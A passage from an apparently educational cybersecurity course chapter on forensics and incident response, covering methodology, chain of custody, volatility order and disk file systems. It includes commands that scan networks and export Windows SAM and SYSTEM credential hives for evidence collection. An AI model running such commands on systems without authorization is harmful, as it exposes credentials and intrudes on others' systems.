


# Chapter 8: Forensics & Incident Response 

> **Prereq:** Chapter 7 (Cloud & Mobile) → modern forensics must account for cloud and mobile evidence sources.
> **Next:** Chapter 9 (GRC) → incident findings feed into governance, risk, and compliance processes.

---

## Learning Objectives

- Define the four phases of the NIST SP 800-61 Incident Response lifecycle
- Master the six-phase digital forensics methodology (Identification → Preservation → Collection → Examination → Analysis → Presentation)
- Understand chain of custody documentation and legal admissibility requirements
- Apply the Order of Volatility to prioritize evidence collection in live environments
- Execute disk forensics analysis on NTFS, FAT, and ext4 file systems including MFT parsing, file carving, and deleted file recovery
- Perform memory forensics using Volatility 3 to extract processes, network connections, DLLs, and injected code
- Conduct network forensics with Wireshark and Zeek to identify C2 traffic and extract artifacts
- Understand mobile forensics acquisition techniques for Android and iOS
- Implement cloud forensics evidence collection in AWS, Azure, and GCP
- Build and execute incident response playbooks with SIEM/SOAR integration
- Write YARA rules for malware detection
- Analyze four major real-world case studies (Sony 2014, Colonial Pipeline 2021, Uber 2022, Target 2013)

<!-- Image Gallery -->
<section class="lesson-visuals" aria-label="Visual learning resources">
  <header><span>VISUAL LEARNING</span><h2>See it. Review it. Remember it.</h2></header>
  <a class="lesson-visual-card" href="../../../assets/images/lessons/cyber-security/08-forensics-ir/handwritten-notes.svg" target="_blank" rel="noopener">
    
    <span><strong>Handwritten notes</strong>Condensed notes for deliberate review.</span>
  </a>
  <a class="lesson-visual-card" href="../../../assets/images/lessons/cyber-security/08-forensics-ir/sticky-notes.svg" target="_blank" rel="noopener">
    
    <span><strong>Sticky-note revision</strong>Fast recall prompts for revision.</span>
  </a>
  <a class="lesson-visual-card" href="../../../assets/images/lessons/cyber-security/08-forensics-ir/visual-explanation.svg" target="_blank" rel="noopener">
    
    <span><strong>Visual concept guide</strong>A connected explanation of the key ideas.</span>
  </a>
</section>
<!-- End Image Gallery -->


### Chapter at a Glance


| Section | Key Concept | Why It Matters |
|---------|-------------|----------------|
| IR Lifecycle | Prep → Detect → Contain → Eradicate → Recover → Post-Incident | Structured approach to handling breaches |
| Digital Forensics Methodology | ID → Preserve → Collect → Examine → Analyze → Present | Legally defensible evidence process |
| Order of Volatility | Collect most volatile first | Preserve the most fragile evidence before it disappears |
| Disk Forensics | MFT, File Carving, Slack Space | Recover evidence from storage media |
| Memory Forensics | RAM Analysis with Volatility 3 | Find rootkits, injected code, fileless malware |
| Network Forensics | PCAP, Wireshark, Zeek | Identify C2 communication and data exfiltration |
| Mobile Forensics | Android/iOS Acquisition | Extract evidence from modern smartphones |
| Cloud Forensics | AWS/Azure/GCP Log Collection | Evidence collection in ephemeral cloud environments |
| SIEM / SOAR / XDR | Splunk, ELK, Automation | Centralized detection and response orchestration |
| Threat Hunting | YARA, IOC, Hypothesis-driven | Proactive threat discovery before detection |

---

## Table of Contents

1. Digital Forensics Methodology
2. Chain of Custody
3. Order of Volatility
4. Disk Forensics
5. Memory Forensics
6. Network Forensics
7. Mobile Forensics
8. Cloud Forensics
9. Incident Response Lifecycle (NIST SP 800-61)
10. SOC Operations & SIEM/SOAR/XDR
11. Threat Hunting & IOC Extraction
12. Playbooks & Automation
13. Practical Examples (Tool Commands)
14. Case Studies
15. Comparison Tables
16. Interview Corner (10+ Q&As)
17. Applications in Real Systems

---

## 1. Digital Forensics Methodology

Digital forensics is the application of computer science and investigative procedures to examine digital evidence in a manner that is legally admissible. The methodology follows six distinct phases, each with specific goals, tools, and documentation requirements.

**Real-World Analogy:** Think of a crime scene investigation. A detective first identifies potential evidence (a bloody knife), photographs it in place (preservation), bags it with gloves (collection), sends it to the lab (examination), runs DNA analysis (analysis), then testifies in court (presentation). Digital forensics follows the exact same chain → the "crime scene" is the hard drive or memory.

### Phase 1: Identification


**Goal:** Recognize and document potential sources of evidence.

**Numbered Steps:**
1. Survey the environment → identify all systems, storage media, network devices, and cloud resources that may contain evidence
2. Interview stakeholders → understand what happened, when, and who was involved
3. Prioritize evidence sources by volatility and relevance
4. Document the scene with photographs, screenshots, and network diagrams
5. Create a preliminary evidence inventory log

**Tool Commands:**
```bash
# Linux: List mounted storage devices
lsblk -o NAME,SIZE,TYPE,MOUNTPOINT,FSTYPE

# Windows: List logical drives
fsutil fsinfo drives

# Network: Identify live hosts on the segment
nmap -sn 192.168.1.0/24 -oA network_scan
```

**Dry Run Trace:**
```
Step 1: Survey → found 3 workstations (HR-01, FIN-02, DEV-03), 1 server (SRV-DC01), 1 NAS
Step 2: Interview → HR-01 user reports "files renamed to .encrypted extension at 2:30 PM"
Step 3: Prioritize → RAM on HR-01 (most volatile), then disk images, then NAS shares
Step 4: Document → photographed screen showing ransomware note, saved to case file
Step 5: Log → created case-2024-001-evidence.csv with entries for each device
```

**Complexity: O(n)** where n = number of potential evidence sources.

| Advantages | Disadvantages |
|------------|---------------|
| Minimal system impact | May miss evidence if scope is too narrow |
| Establishes investigation roadmap | Requires experienced judgment |
| Creates legal foundation | Time pressure can cause omissions |

**Edge Cases:**
- Encrypted drives discovered during identification require immediate memory capture (keys in RAM)
- Virtual machines may have snapshots that serve as alternate evidence sources
- Cloud instances may auto-scale and terminate, destroying evidence
- Containerized environments (Docker/K8s) have ephemeral storage that disappears on restart

### Phase 2: Preservation


**Goal:** Maintain the integrity of evidence from the moment of identification. No evidence should be altered, damaged, or destroyed.

**Numbered Steps:**
1. Isolate the system from the network to prevent remote tampering
2. Use write-blockers for all storage media acquisition
3. Calculate cryptographic hashes (SHA-256) of original evidence
4. Document the preservation method used for each item
5. Secure evidence in locked, access-controlled storage

**Tool Commands:**
```bash
# Calculate SHA-256 hash of a disk device (before imaging)
sha256sum /dev/sdb > /evidence/case-001/original-hash.txt

# Calculate SHA-256 hash of a file
sha256sum suspicious_file.exe

# Windows: CertUtil for hash computation
certutil -hashfile suspicious_file.exe SHA256

# Verify integrity after imaging
sha256sum /evidence/case-001/disk-image.dd
diff <(sha256sum /evidence/case-001/disk-image.dd) /evidence/case-001/original-hash.txt
```

**Dry Run Trace:**
```
Step 1: Isolate → unplugged Ethernet cable from HR-01, disabled WiFi in BIOS
Step 2: Write-blocker → connected hard drive via Tableau T35u write-blocker
Step 3: Hash → SHA-256: a8f5f167f44f4964e6c998d... → saved to evidence log
Step 4: Document → "HR-01 SATA SSD imaged using dd with write-blocker at 15:45 UTC"
Step 5: Secure → evidence stored in safe #2, access logged in Chain of Custody form
```

**Complexity: O(p)** where p = preservation actions taken.

| Advantages | Disadvantages |
|------------|---------------|
| Ensures legal admissibility | Write-blockers require specialized hardware |
| Creates verifiable integrity chain | Network isolation may alert attackers |
| Protects against spoliation claims | Live system preservation is complex |

**Edge Cases:**
- RAID arrays require special preservation → document the RAID configuration before disassembly
- Hardware-backed encryption (TPM, BitLocker) may auto-unlock on boot → never reboot
- Cloud volumes can be snapshotted without shutting down (AWS EBS snapshots preserve state)
- Self-encrypting drives (SED) may lock on power loss → capture while powered on

### Phase 3: Collection


**Goal:** Acquire evidence using forensically sound methods, following the Order of Volatility.

**Numbered Steps:**
1. Collect volatile data first (RAM, network connections, running processes)
2. Capture non-volatile data (hard drives, SSDs, USB storage)
3. Collect network logs, firewall logs, and SIEM data
4. Acquire cloud service logs (CloudTrail, Azure Activity Log, GCP Audit Logs)
5. Document collection time, method, and tool used for each item

**Tool Commands:**
```bash
# Memory acquisition with LiME (Linux)
sudo insmod lime.ko "path=/evidence/case-001/memory.lime format=lime"

# Memory acquisition with FTK Imager (Windows)
# GUI: File → Capture Memory → select destination path

# Disk imaging with dd
sudo dd if=/dev/sdb of=/evidence/case-001/hdd-image.dd bs=4M conv=noerror,sync

# Disk imaging with dc3dd (forensic dd with built-in hashing)
sudo dc3dd if=/dev/sdb of=/evidence/case-001/hdd-image.dd hash=sha256 log=acquisition.log

# Live response: collect system information
# Windows:
wevtutil epl System C:\evidence\System.evtx
wevtutil epl Security C:\evidence\Security.evtx
reg save HKLM\SYSTEM C:\evidence\SYSTEM.hive
reg save HKLM\SAM C:\evidence\SAM.hive
reg save HKLM\SOFTWARE C:\evidence\SOFTWARE.hive

# Linux:
sudo cp /var/log/auth.log /evidence/case-001/
sudo cp /var/log/syslog /evidence/case-001/
sudo cp -r /var/log/apache2/ /evidence/case-001/
```

**Dry Run Trace:**
```
Step 1: RAM capture → LiME wrote /evidence/case-001/memory.lime (16 GB, SHA-256 verified)
Step 2: Disk imaging → dd of /dev/sdb completed at 8 MB/s, 10:23 elapsed, no errors
Step 3: Network logs → exported pfSense firewall logs from 2:00 PM to 4:00 PM window
Step 4: Cloud logs → AWS CloudTrail exported to S3 bucket evidence-2024-cloudtrail
Step 5: Logged → all items timestamped in collection manifest
```

**Complexity: O(c × s)** where c = collection methods, s = size of evidence.

| Advantages | Disadvantages |
|------------|---------------|
| Captures evidence before it vanishes | Time-consuming for large storage |
| Multiple verified copies maintain integrity | Cloud collection requires API access |
| Redundant collection prevents loss | Live collection alters system state |

**Edge Cases:**
- SSD TRIM may permanently erase deleted files during acquisition → use write-blocker
- RAM capture on systems with >64 GB may take hours over network
- Hypervisor memory captures (VMware .vmem) capture the entire VM state
- Containers: capture docker diff and container filesystem layers separately

### Phase 4: Examination


**Goal:** Extract and prepare data from the collected evidence using forensic tools. This phase identifies potential evidence without interpreting it.

**Numbered Steps:**
1. Recover deleted files from unallocated space
2. Extract relevant artifacts (registry hives, event logs, browser history)
3. Perform keyword searches across the evidence corpus
4. Reconstruct timelines using file system metadata and logs
5. Carve files from unallocated space based on file signatures

**Tool Commands:**
```bash
# Sleuth Kit: List files in an image
fls -r -m / evidence-image.dd > bodyfile.txt

# Sleuth Kit: Recover deleted files
icat evidence-image.dd 128 > recovered_file.pdf

# Autopsy: Timeline analysis
# Tools → Timeline → generate timeline from ingested data

# Bulk Extractor: Extract features without parsing file system
bulk_extractor -o /evidence/bulk_output/ evidence-image.dd

# PhotoRec: File carving (recovers based on file signatures)
sudo photorec /evidence/case-001/evidence-image.dd
```

**Dry Run Trace:**
```
Step 1: Deleted files → fls identified 47 deleted files in Documents folder
Step 2: Artifacts → extracted NTUSER.DAT, UsrClass.dat, 3 evtx files
Step 3: Keywords → searched for "password", "admin", "192.168." → 142 hits
Step 4: Timeline → Plaso generated super timeline from 2024-01-01 to 2024-06-15
Step 5: Carving → PhotoRec recovered 284 files including 12 JPEG, 3 PDF, 1 ZIP
```

**Complexity: O(d × f)** where d = data volume, f = number of files/artifacts.

| Advantages | Disadvantages |
|------------|---------------|
| Recovers evidence from unallocated space | Processing time scales with storage size |
| Automated carving reduces manual effort | False positives in file carving |
| Creates structured data for analysis | Requires training in tool usage |

**Edge Cases:**
- Encrypted files cannot be examined without decryption keys
- Corrupted MFT/GPT may require manual reconstruction
- Solid-state drives with TRIM may have unrecoverable deleted files
- RAID striping requires logical volume reconstruction before examination

### Phase 5: Analysis


**Goal:** Draw conclusions from the examined data. This is where evidence is correlated, timelines are interpreted, and the story of the incident is reconstructed.

**Numbered Steps:**
1. Correlate evidence across multiple sources (disk + memory + network logs)
2. Identify the attack vector and initial compromise point
3. Track lateral movement through the environment
4. Determine data exfiltration scope and method
5. Attribute actions to specific users, processes, or external actors

**Tool Commands:**
```bash
# Plaso / log2timeline: Create super timeline
log2timeline.py --storage-file /evidence/case-001/timeline.plaso /evidence/case-001/disk-image.dd
psort.py -w /evidence/case-001/timeline.csv /evidence/case-001/timeline.plaso

# Timeline Explorer (Eric Zimmerman):
# Load the CSV into Timeline Explorer for filtering and analysis

# MFT: Extract file creation/modification/access timelines
MFTECmd.exe -f "$MFT" --csv timeline-output.csv

# Correlation: Cross-reference process creation with network connections
# Volatility: extract process tree
vol -f memory.lime windows.pstree
# Compare with Zeek conn.log timestamps
```

**Dry Run Trace:**
```
Step 1: Correlation → Process "powershell.exe" (PID 4521) started at 14:32:15.
  Two seconds later, outbound HTTPS connection to 185.234.72.18:443 (Zeek conn.log).
  This IP is known Cobalt Strike C2 (Threat Intelligence).
Step 2: Attack vector → Email attachment opened by user jdoe at 14:30:00.
  Attachment: Invoice_2024-06-15.docm (macro-enabled).
Step 3: Lateral movement → From jdoe's workstation, PsExec to SRV-DB01 at 14:45:00.
Step 4: Exfiltration → 1.2 GB data transferred via FTP to 198.51.100.50 at 15:10:00.
Step 5: Attribution → Email originated from spoofed vendor domain with Russian-language metadata.
```

**Complexity: O(e × c)** where e = evidence items, c = correlation paths.

| Advantages | Disadvantages |
|------------|---------------|
| Provides actionable intelligence | High skill requirement for analysis |
| Reconstructs complete attack chain | Correlation across sources is time-intensive |
| Supports attribution and remediation | Circumstantial evidence requires careful interpretation |

**Edge Cases:**
- Log clock skew → timestamps across systems may not be synchronized (use NTP delta analysis)
- Anti-forensics → attackers may tamper with logs (logwiper, timestomping)
- Encrypted C2 traffic → only metadata available without decryption
- False attribution → attackers may plant evidence pointing to other groups (false flag)

### Phase 6: Presentation


**Goal:** Communicate findings clearly to stakeholders, legal teams, and potentially juries.

**Numbered Steps:**
1. Prepare an executive summary for non-technical stakeholders
2. Create a detailed technical report with evidence citations
3. Include visual aids (timelines, network diagrams, screenshots)
4. Document chain of custody and evidence integrity verification
5. Provide expert testimony if required for legal proceedings

**Tool Commands:**
```bash
# Plaso: Export timeline for presentation
psort.py -o l2tcsv -w presentation-timeline.csv timeline.plaso

# Autopsy: Generate HTML report
# Tools → Generate Report → HTML

# D3.js / Mermaid: Create attack flow diagrams
mermaid timeline.mmd
```

**Dry Run Trace:**
```
Step 1: Executive Summary → "Attack originated from spear-phish email, exfiltrated 1.2 GB of customer data"
Step 2: Technical Report → 47 pages including tool outputs, hash verifications, evidence log
Step 3: Visual Aids → Timeline of events (14:30 to 15:10), network flow diagram, C2 IP geolocation
Step 4: COC → Signed chain of custody form with 6 transfers, all hashes verified
Step 5: Testimony → Investigator served as expert witness in deposition
```

**Complexity: O(p)** where p = presentation effort.

| Advantages | Disadvantages |
|------------|---------------|
| Makes findings actionable for decision-makers | Simplification may omit technical nuance |
| Creates legally defensible record | Requires effective communication skills |
| Supports organizational learning | Time-consuming to prepare thoroughly |

**Edge Cases:**
- Language barriers → non-native stakeholders may need translated summaries
- Classified evidence → handling restrictions may limit what can be disclosed
- Multiple jurisdictions → different countries have varying admissibility standards
- Ongoing litigation → attorney-client privilege may restrict report distribution

---

## 2. Chain of Custody

**Real-World Analogy:** A FedEx tracking number. Every scan, every signature, every handoff is recorded. If the box arrives damaged, you can see exactly where it happened. Chain of custody is the "FedEx tracking" for digital evidence.

Chain of custody (CoC) is a formal document that tracks the seizure, custody, control, transfer, analysis, and disposition of evidence. Every person who handles the evidence must sign the CoC form, creating an unbroken chronological record.

### Required Components of a Chain of Custody Form


1. **Case Identifier** → unique number for the investigation
2. **Item Description** → make, model, serial number, unique identifiers
3. **Evidence Type** → physical (hard drive, phone) or logical (image file, memory dump)
4. **Collection Information** → who collected, when (date/time), where (location)
5. **Hash Values** → MD5, SHA-1, and/or SHA-256 of the evidence at collection
6. **Transfer Log** → every person who handled the evidence with dates and purpose of transfer
7. **Security Method** → how evidence was stored (safe, encrypted container, sealed bag)
8. **Disposition** → final location or destruction of evidence

### Sample Chain of Custody Form (Text Format)


```
╔══════════════════════════════════════════════════════════════╗
║              CHAIN OF CUSTODY FORM                          ║
║              Case #: IR-2024-001                            ║
╚══════════════════════════════════════════════════════════════╝

ITEM DESCRIPTION:
-----------------
Type: SATA SSD, 500 GB, Samsung 870 EVO
Serial Number: S6P5NB0R123456
Host System: HR-01 (Dell Optiplex 7080, SN: ABC123)
Collection Location: Building A, Floor 3, Office 304

HASH VALUES:
------------
SHA-256 (original): a8f5f167f44f4964e6c998d67f3b3b9e7a2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
SHA-256 (image):    a8f5f167f44f4964e6c998d67f3b3b9e7a2c3d4e5f6a7b8c9d0e1f2a3b4c5d6
MD5 (original):     4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9b

TRANSFER LOG:
-------------
| # | Date/Time (UTC) | From          | To            | Purpose              | Signature |
|---|-----------------|---------------|---------------|----------------------|-----------|
| 1 | 2024-06-15 14:30| John Smith    | Lab Intake    | Evidence submission  | JSmith    |
|   |                 | (Responder)   |               |                      |           |
| 2 | 2024-06-15 15:00| Lab Intake    | Sarah Jones   | Disk imaging         | SJones    |
|   |                 |               | (Forensic     |                      |           |
|   |                 |               | Analyst)      |                      |           |
| 3 | 2024-06-16 09:00| Sarah Jones   | Evidence Safe | Overnight storage    | SJones    |
|   |                 |               | (Room 101)    |                      |           |
| 4 | 2024-06-16 10:00| Evidence Safe | Mike Chen     | File system analysis | MChen     |
|   |                 |               | (Analyst)     |                      |           |
| 5 | 2024-06-20 16:00| Mike Chen     | Evidence Safe | Final storage        | MChen     |
|   |                 |               | (Room 101)    |                      |           |

DISPOSITION:
------------
Returned to owner (IT department) on 2024-07-01.
Receipt signed by Jane Doe, IT Manager.

EVIDENCE OFFICER: _______________________  Date: _____________
```

### Legal Standards for Chain of Custody


- **Federal Rules of Evidence (FRE) 901** → evidence must be authenticated with proof it is what it claims to be
- **Daubert Standard** → forensic methodology must be scientifically valid and testable
- **Frye Standard** → methods must be "generally accepted" in the scientific community
- **Best Evidence Rule (FRE 1002)** → original evidence preferred over copies (hash verification satisfies this)

### Chain of Custody Violations That Invalidate Evidence


1. **Gaps in timeline** → unaccounted periods where evidence was unsupervised
2. **Unverifiable hashes** → hash mismatch between collection and analysis
3. **Improper storage** → evidence stored in uncontrolled environment (temperature, humidity, access)
4. **Unauthorized access** → person without clearance handled evidence
5. **Missing signatures** → required signatory did not complete form
6. **Late documentation** → forms filled out days after the transfer

### Edge Cases


- **Virtual evidence** → logs from cloud providers may be stored across multiple jurisdictions
- **Shared custody** → multiple agencies investigating the same case must maintain coordinated CoC
- **Classified evidence** → additional clearance documentation required for each transfer
- **Cross-border transfers** → different countries have different evidence handling laws

---

## 3. Order of Volatility

**Real-World Analogy:** When a chef finds a bug in the kitchen, the first thing they check is the fresh ingredients on the counter (they spoil fastest), then the refrigerator, then the freezer, then the pantry. Digital evidence has the same "spoilage" scale → data in RAM disappears in milliseconds, while data on a backup tape lasts years.

The Order of Volatility (OOV) dictates the sequence in which digital evidence must be collected → from most volatile to least volatile. This is critical because collecting lower-volatility evidence first may destroy higher-volatility evidence.

### The Order of Volatility Table


| Rank | Evidence Type | Description | Volatility | Collection Window | Collection Tool |
|------|---------------|-------------|------------|-------------------|-----------------|
| 1 | CPU Registers / Cache | Processor state, instruction pointer | Nanoseconds | Instant | Hardware debugger, JTAG |
| 2 | Routing Tables / ARP Cache | Network path information | Milliseconds | Seconds | `arp -a`, `netstat -rn` |
| 3 | RAM (Physical Memory) | Running processes, network connections, loaded DLLs, decrypted data | Milliseconds to seconds | Minutes | LiME, FTK Imager, WinPmem, dumpit |
| 4 | Temporary File Systems | /tmp, /var/tmp, browser cache | Seconds to minutes | Minutes | `lsof +L1`, `ls -la /tmp` |
| 5 | Disk (Non-volatile) | File system data, installed programs, user files | Minutes to years | Hours | dd, Guymager, FTK Imager |
| 6 | Removable Media | USB drives, external HDDs, SD cards | Minutes to years | Minutes | dd, pyUSB |
| 7 | Logs (Remote) | SIEM, firewall, DNS, proxy logs | Hours to years | Days | API export, syslog |
| 8 | Backups / Archives | Tape backups, cloud snapshots, offline archives | Months to years | Weeks | Backup software export |
| 9 | Configuration / Documentation | Network diagrams, asset inventories, policies | Years | Unlimited | Manual collection |

### Collection Timing Guidelines


| Rank | Collection Must Begin Within | Acceptable Delay |
|------|-----------------------------|-------------------|
| 1-2 | Immediate (seconds) | Not acceptable |
| 3 | Within 5 minutes | Up to 15 minutes |
| 4 | Within 15 minutes | Up to 1 hour |
| 5 | Within 1 hour | Up to 1 day |
| 6 | Within 2 hours | Up to 1 day |
| 7 | Within 1 day | Up to 1 week |
| 8 | Within 1 week | Up to 1 month |
| 9 | No time pressure | Not applicable |

### Anti-Forensics Impact on Volatility


| Anti-Forensic Technique | Volatility Impact | Mitigation |
|------------------------|-------------------|------------|
| Process hiding (rootkit) | Hides rank 3 evidence | Use Volatility kdbgscan |
| Log deletion | Destroys rank 7 | Centralized logging (SIEM) |
| Timestomping | Corrupts rank 5 metadata | Compare MFT $STANDARD_INFORMATION vs $FILE_NAME |
| Disk wiping | Destroys rank 5 | Capture before wipe command completes |
| RAM Trashing | Overwrites rank 3 | Immediate collection before tool runs |
| Encryption | Makes rank 3-5 inaccessible | Capture keys from RAM first |

### Edge Cases in Order of Volatility


- **Virtual Machines:** VM snapshots (.vmem, .vmsn) capture CPU registers + RAM as a file → treat as both rank 1 and 5
- **Containers:** Docker container file systems are ephemeral → rank 4, collect before stopping the container
- **Cloud Instances:** Auto-scaling groups may terminate instances → rank 3-5 disappears instantly
- **Solid State Drives:** TRIM garbage collection destroys deleted data → treat as higher volatility than HDD
- **RAM on Mobiles:** Encrypted by default (iOS since iPhone 5s, Android since 6.0) → rank 3 with encryption wall

---

## 4. Disk Forensics

**Real-World Analogy:** A library has a card catalog (MFT) that lists every book and where it sits. When a book is "returned" (deleted), the card is moved to a "free" pile → but the book is still on the shelf until the shelf space is needed for a new book. Disk forensics is about reading the card catalog and finding books that were marked as returned but never reshelved.

### 4.1 File System Overview


#### NTFS (New Technology File System)

**Structure:**
- **MBR / GPT** → partition table at the start of the disk
- **VBR (Volume Boot Record)** → first sector of the NTFS volume
- **$MFT (Master File Table)** → central directory of all files and folders
- **$MFTMirr** → mirror of the first 4 MFT entries (stored in the middle of the volume)
- **Clusters** → logical allocation units (typically 4 KB)

**Key NTFS Metadata Files:**

| File | Purpose |
|------|---------|
| $MFT | Master File Table → every file/folder has an entry |
| $MFTMirr | Backup of first 4 MFT entries |
| $LogFile | Transaction log for metadata changes |
| $Volume | Volume information (name, version) |
| $AttrDef | Attribute definitions |
| $Bitmap | Cluster allocation bitmap |
| $Boot | Boot sector (VBR) |
| $BadClus | Bad cluster list |
| $Secure | Security descriptors (NTFS permissions) |
| $UpCase | Unicode uppercase table |
| $Extend | Extended metadata (quotas, reparse points, object IDs) |

#### FAT (File Allocation Table)

**Structure:**
- **Boot Sector** → BPB (BIOS Parameter Block)
- **FAT1 / FAT2** → File Allocation Table (two copies for redundancy)
- **Root Directory** → root directory entries (fixed location in FAT16)
- **Data Region** → file content stored in clusters

**FAT Variants:**
- FAT12 → floppy disks, &lt; 32 MB
- FAT16 → < 2 GB (4 GB with 64 KB clusters)
- FAT32 → < 2 TB (standard), &lt; 16 TB (with 4 KB sectors)
- exFAT → < 128 PB, designed for flash storage

#### ext4 (Fourth Extended File System)

**Structure:**
- **Superblock** → file system metadata (starts at offset 1024)
- **Group Descriptors** → describes each block group
- **Block Bitmap** → tracks free/used blocks per group
- **Inode Bitmap** → tracks free/used inodes per group
- **Inode Table** → array of inodes (file metadata structures)
- **Data Blocks** → file content

**Key ext4 Features for Forensics:**
- Journal (jbd2) → logs metadata changes before commit (can recover previous versions)
- Extents → efficient large file allocation tracking
- Inline data → small files stored inside the inode structure

### 4.2 Master File Table (MFT) Deep Dive


The MFT is the heart of NTFS forensics. Each file and directory has at least one MFT entry (1024 bytes each). Deleted entries are marked as "available" but remain on disk until overwritten.

**MFT Entry Structure (1024 bytes):**

```
Offset  | Size | Field              | Description
--------|------|--------------------|--------------------------------
0x00    | 4    | Signature          | "FILE" or "BAAD" (corrupted)
0x04    | 2    | USA Offset         | Update sequence array offset
0x06    | 2    | USA Count          | Update sequence array size
0x08    | 8    | LogFile Sequence   | LSN (links to $LogFile)
        |      | Number (LSN)       | 
0x10    | 2    | Sequence Value     | Incremented each time entry reused
0x12    | 2    | Link Count         | Number of hard links
0x14    | 2    | Attribute Offset   | Offset to first attribute
0x16    | 2    | Flags              | 0x00=Deleted, 0x01=File, 0x02=Dir, 0x03=File+Dir
0x18    | 4    | Bytes in Use       | Size of MFT entry in use
0x1C    | 4    | Bytes Allocated    | Total size of MFT entry
0x20    | 8    | Base File Reference| Parent MFT entry reference
0x28    | 2    | Next Attribute ID  | ID for next attribute
0x2A    | 2    | Padding            | Boundary alignment
0x2C    | 4    | MFT Record Number  | Entry number in MFT
0x30    | 2    | Update Sequence    | Update sequence number
        |      | Number             | 
```

**MFT Standard Attributes:**

| Attribute Type | ID | Description |
|----------------|----|-------------|
| $STANDARD_INFORMATION | 0x10 | Timestamps (MACE: Modified, Accessed, Created, MFT Entry Modified), file permissions, flags |
| $ATTRIBUTE_LIST | 0x20 | Lists attributes when they exceed MFT entry (multi-extent) |
| $FILE_NAME | 0x30 | Filename (up to 255 chars), parent reference, timestamps |
| $OBJECT_ID | 0x40 | 16-byte unique object identifier |
| $SECURITY_DESCRIPTOR | 0x50 | Owner, group, DACL, SACL |
| $VOLUME_NAME | 0x60 | Volume label |
| $VOLUME_INFORMATION | 0x70 | Volume version, flags |
| $DATA | 0x80 | File content (resident or non-resident) |
| $INDEX_ROOT | 0x90 | Root node of B-tree directory index |
| $INDEX_ALLOCATION | 0xA0 | B-tree directory index nodes |
| $BITMAP | 0xB0 | Bitmap for directory index |
| $REPARSE_POINT | 0xC0 | Symbolic link info (junction points) |
| $EA_INFORMATION | 0xD0 | Extended attribute information |
| $EA | 0xE0 | Extended attributes |
| $LOGGED_UTILITY_STREAM | 0x100 | $EFS (encryption), $TXF_DATA |

### 4.3 Analyzing MFT for Forensic Evidence


**Key Forensic Insights from MFT:**

1. **Deleted File Recovery** → MFT entry flags = 0x00 indicates deleted. Data may still be present in clusters.
2. **Timestomping Detection** → Compare $STANDARD_INFORMATION timestamps with $FILE_NAME timestamps. Attackers often modify $SI but forget $FN.
3. **File Creation Timeline** → MFT records are allocated sequentially. Entry number reveals creation order relative to other files.
4. **Slack Space** → MFT entry at 1024 bytes may not be fully used; residual data from previous MFT entries exists in unused bytes.
5. **Resident vs Non-Resident** → Small files (<~700 bytes) are stored entirely within the MFT entry: $DATA attribute is resident.

**MFT Parsing Commands:**

```bash
# analyzeMFT: Parse MFT to CSV
analyzeMFT.py -f "\$MFT" -o mft-output.csv

# MFTECmd: Parse MFT with multiple output formats
MFTECmd.exe -f "\$MFT" --csv mft-output.csv
MFTECmd.exe -f "\$MFT" --json mft-output.json
MFTECmd.exe -f "\$MFT" --body mft-output.body --bodyfull

# Sleuth Kit: MFT-specific commands
istat ntfs-image.dd 0     # MFT entry 0 ($MFT itself)
istat ntfs-image.dd 45    # Specific file entry 45

# Recover MFT if deleted or corrupted
